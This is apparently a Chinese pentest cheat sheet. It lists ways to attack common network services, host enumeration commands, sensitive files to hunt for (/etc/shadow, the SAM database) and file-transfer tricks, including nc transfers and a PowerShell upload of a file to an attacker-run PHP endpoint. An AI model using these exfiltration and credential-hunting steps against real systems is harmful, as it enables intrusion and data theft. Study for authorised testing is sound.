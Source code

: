 <h1 align="center">常见服务利用</h1>

FTP默认端口21

1.  匿名访问
2. 弱凭证
3. 包含敏感文件
4. 可写入文件
5. CVE(RCE，目录遍历等)

SSH默认端口22

1. 弱凭证
2. 私钥泄露
3. OpenSSL漏洞，PRNG

SMTP默认端口25

1. 内部钓鱼，枚举用户

DNS默认UDP53，也支持TCP53

1. 区域传输
2. 查询记录
3. DNS记录注入（AD环境）

HTTP&HTTPS

1. 子域名，虚拟主机枚举
2. 源代码注释
3. robots.txt&sitemap
4. 报错信息
5. 框架，中间件，应用的CVE

POP3&IMAP

1. 获取凭证后，读取信息

SMB on Linux

1. 空会话访问
2. 可读目录包含敏感信息
3. 可写目录
4. CVE漏洞
5. 挂载

SMB on Windows

1. 域用户枚举
2. 域信息枚举

SNMP默认端口UDP61

1. Public String
2. 弱口令和read write string
3. 主机信息提取

LDAP默认端口389

1. 空会话访问
2. 域信息枚举

NFS默认端口2049

1. 可写目录
2. 包含敏感文件

RDP默认端口3389

1. CVE漏洞
2. 主机与域信息提取

VNC默认端口5900或5901

1. 非认证访问，弱口令
2. CVE

## 1. 基本命令

### 1. Windows

1. 系统信息：systeminfo
2. 网络信息：ipconfig，netstat
3. 账户信息：net user (/domain)
4. 群组信息：net group (/domain)
5. 任务与进程：tasklist 

查找Windows上administrator用户的进程：get-process -includeusername | findstr administrator（对大小写敏感）

### 2. Linux

1. 系统信息：uname -an
2. 网络信息：ip a，netstat
3. 账户信息：id，whoami
4. 群组信息：id
5. 任务与进程：ps aux

查找Linux上root用户的进程：ps aux | grep root

### 3. Windows重要文件

1. 用户目录(桌面、文档、根目录、SSH)
2. WEB应用目录(源代码、配置文件)
3. 服务目录(自定义SMB共享、FTP、tomcat等)
4. program files以及x86版本的目录
5. c:\下的非默认目录
6. SAM数据库文件

### 4. Linux重要文件

1. /etc/passwd
2. /etc/shadow
3. /etc/crontab
4. web应用目录(配置文件、源代码)
5. 常见服务的配置文件(Apache2、FTP、SSH、SMTP)
6. 用户目录(SSH、history、profile、非默认文件等)

### 5. 文件传输

1. SCP传输

   1. 本地传输到远程：`scp file user@host:~/`
   2. 远程传输到本地：`scp user@host:home/user/file ~/`

2. NC传输(需要目标主机带NC)

   1. 接收端：`nc -nvlp [port] > file`
   2. 发送端：`nc -w 3 [ip][port] < file`

3. 搭建临时SMB Server：`impacket-smbserver samba`

4. 搭建临时Http server：`python3 -m  http.server [port]`

5. 搭建带有上传功能的http服务器
   ```php
   <?php
   $uploaddir='C:/phpstudy/PHPTutorial/WWW/uploads/';
   $uploadfile=$uploaddir.$_FILES['file']['name'];
   move_uploaded_file($_FILES['file']['tmp_name'],$uploadfile)
   ?>
   ```

   ```powershell
   (New-Object System.Net.WebClient).UploadFile('http://172.20.10.6/upload.php','.\Desktop\information.txt')
   ```

6. 编码传输：适用于体积不大的二进制文件
   ```bash
   #编码
   base64 [file] -w 0
   #解码
   echo '[encode]' | base64 -d >file
   ```

   ```powershell
   #解码
   [System.IO.File]::WriteAllBytes(".\Desktop\information.txt",[System.Convert]::FromBase64String("[encoded]"))
   ```

7. 

 















